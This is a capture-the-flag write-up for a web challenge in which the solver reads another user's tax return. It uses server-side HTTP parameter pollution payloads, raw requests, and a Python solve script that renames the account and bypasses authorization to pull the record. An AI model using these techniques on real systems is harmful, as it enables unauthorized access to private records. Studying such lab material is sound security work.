

## Tax Aversion (Web, 500pt)

> Reward $4300  Client Mark Jeffrey  Suggested prior experience Moderate
>
> A certain distinguished politician is strangely reluctant to publish his tax return. Enquiring minds would be thrilled to obtain a copy of Michael Dowd's tax return. To get started, feel free to use my HMRC account: mjeffrey:jitterbeetle
> 
> [advice pending] -- admin
>
> [Go to tagret](http://hmrc.hackxor.net/)
> 
> HINT: Double encoding isn't just a filter bypass technique - it can reveal important details about a system.



Application provides only a small surface for exploitation. Users can only reset their password and view their tax return. We are given an account and asked to retrieve the tax return for another user (`mdowd`).

Request to update our password is:

```
POST / HTTP/1.1
Host: hmrc.hackxor.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://hmrc.hackxor.net/
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Cookie: _globalinstancekey=301063/1/P6hru1HheN0sKJ_acY7DXQ==; sid=wGpEUWHRDujkIhqTXcOFWG8BucLtNSgS
Connection: close

oldpass=jitterbeetle&newpass1=jitterbeetle&newpass2=jitterbeetle&token=EzXQt1IFGF4xc5fopa8CK76XKiPyuHWg
```

Request to view our tax return is:

```
GET /viewReturn?year=2017&username=mjeffrey HTTP/1.1
Host: hmrc.hackxor.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: _globalinstancekey=301063/1/P6hru1HheN0sKJ_acY7DXQ==; sid=wGpEUWHRDujkIhqTXcOFWG8BucLtNSgS
Connection: close
```

After fuzzing all user inputs for vulnerabilities (including `sid` for padding oracle :P) the only parameter that seemed to be *kind of injectable* was `year` in the tax return requests. We could send payloads such as `2017'#ignored` and still get our tax return. However, `2017';#` or `2017' #` didn't work. Tried several bypasses, such as alternate spacing (`\x0a`, `\x0d`, `\x09`, `/**/`) and double url encoding but none worked. There must be something else...

Influenced by the last challenge my teammate [@tomtoump](https://github.com/tomtoump) solved (writeup link here) I tested the application's behavior on parameter pollution. It seemed that polluted parameters were put in array. So, I decided to test for **server-side parameter pollution**.

**Request:**
```
GET /viewReturn?year=2017'%26username%3dmdowd%3b%23&username=mjeffrey
```

**Response:**
```
Couldn't find user mjeffreymdowd
```

**Request:**
```
GET /viewReturn?year=2017'%26username%3ddowd%3b%23&username=m
```

**Response:**
```
You are not authorised to view this tax return
```

The `username` must be our real username.

I spent several more hours trying to find a way to make the username `mdowd` until my teammate [@hpyl](https://github.com/hpyl) told me that by appending the `login` parameter in password update requests, we are able to update our username besides our password! In my opinion, even though this is something that may happen in real-world applications, it just doesn't fit a CTF challenge and negatively affected its quality. Nonetheless, we can now get `mdowd`'s tax return by updating our username to `m` and then use the server-side pp to concatenate it with `dowd`.

Final solution is summarized in the [solve.py](solve.py) script.

```python
import re
import requests

_target = 'http://hmrc.hackxor.net/'
_user, _pass = 'mjeffrey', 'jitterbeetle'

sess = requests.Session()

# create new instance
sess.get(_target)

# login with provided account
sess.post(_target + 'login', data={'user': _user, 'password': _pass})
print '[+] logged in: ' + sess.cookies.get_dict()['sid']

# get csrf token
resp = sess.get(_target)
csrf_token = re.search(r'value="([^"]{30,35})"', resp.text).group(1)
print '[+] got csrf token: ' + csrf_token

# update username
sess.post(_target, data={'login': 'm', 'oldpass': _pass, 'newpass1': _pass, 'newpass2': _pass, 'token': csrf_token})
print '[+] updated username'

# exploit server-side hpp to access mdowd tax return
resp = sess.get(_target + 'viewReturn', params={'year': '2017\'%26username%3ddowd%3b%23', 'username': 'm'})
flag = re.search(r'hackim18{\'([^}]+)\'}', resp.text).group(1)
print '[+] flag: hackim18{{\'{}\'}}'.format(flag)
```

```
[+] logged in: GW9VIUEweK1VdWKtSWFrAoQ9Nl1xMaoy
[+] got csrf token: DiQdJACgGiKOBKUKlAzVLDzyScdSADud
[+] updated username
[+] flag: hackim18{'f49f40f2e2ef092770212387966e92d5'}
```

## References

* https://www.ikkisoft.com/stuff/HPParticle.pdf
* https://www.acunetix.com/blog/whitepaper-http-parameter-pollution/
